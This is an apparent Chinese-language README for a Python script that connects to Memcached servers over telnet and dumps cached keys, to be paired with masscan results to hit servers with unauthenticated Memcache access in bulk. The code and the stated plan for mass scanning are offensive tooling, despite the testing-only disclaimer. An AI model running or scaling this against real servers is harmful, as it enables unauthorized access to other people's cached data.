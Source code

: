 # Memcache 批量操作脚本  

## 0x00 说明
1. 虽然“Memcache 未授权访问”是一个公布很久的漏洞，但互联网中依然存在不少服务器未及时修复，部分服务器甚至导致敏感信息泄露。
2. 结合masscan扫描结果，利用该脚本，实现对存在“Memcache未授权访问”漏洞服务器的批量操作。
3. 脚本仅供测试，切勿用于非法用途，非法使用造成的后果与作者无关。


## 0x01 Memcache 未授权访问原理
[Memcache Exploit](http://niiconsulting.com/checkmate/2013/05/memcache-exploit/)
## 0x01 演示

测试输入：

![usage](usage.png)

## 0x02 下载

https://github.com/maskhed/python-memcached-stats  

## 0x03 源码

```
import re, telnetlib, sys

class MemcachedStats:

    _client = None
    _key_regex = re.compile(r'ITEM (.*) \[(.*); (.*)\]')
    _slab_regex = re.compile(r'STAT items:(.*):number')
    _stat_regex = re.compile(r"STAT (.*) (.*)\r")

    def __init__(self, host='localhost', port='11211', timeout=None):
        self._host = host
        self._port = port
        self._timeout = timeout

    @property
    def client(self):
        if self._client is None:
            self._client = telnetlib.Telnet(self._host, self._port,
                                            self._timeout)
        return self._client

    def command(self, cmd):
        ' Write a command to telnet and return the response '
        self.client.write(("%s\n" % cmd).encode('ascii'))
        return self.client.read_until(b'END').decode('ascii')

    def key_details(self, sort=True, limit=100):
        ' Return a list of tuples containing keys and details '
        cmd = 'stats cachedump %s %s'
        keys = [key for id in self.slab_ids()
            for key in self._key_regex.findall(self.command(cmd % (id, limit)))]
        if sort:
            return sorted(keys)
        else:
            return keys

    def keys(self, sort=True, limit=100):
        ' Return a list of keys in use '
        return [key[0] for key in self.key_details(sort=sort, limit=limit)]

    def slab_ids(self):
        ' Return a list of slab ids in use '
        return self._slab_regex.findall(self.command('stats items'))

    def stats(self):
        ' Return a dict containing memcached stats '
        return dict(self._stat_regex.findall(self.command('stats')))

def main(argv=None):
    if not argv:
        argv = sys.argv
    host = argv[1] if len(argv) >= 2 else '127.0.0.1'
    port = argv[2] if len(argv) >= 3 else '11211'
    import pprint
    m = MemcachedStats(host, port)
    pprint.pprint(m.keys())

if __name__ == '__main__':
    main()
```

在此源码基础上，添加对masscan扫描结果的处理以及多线程，即可实现批量操作。
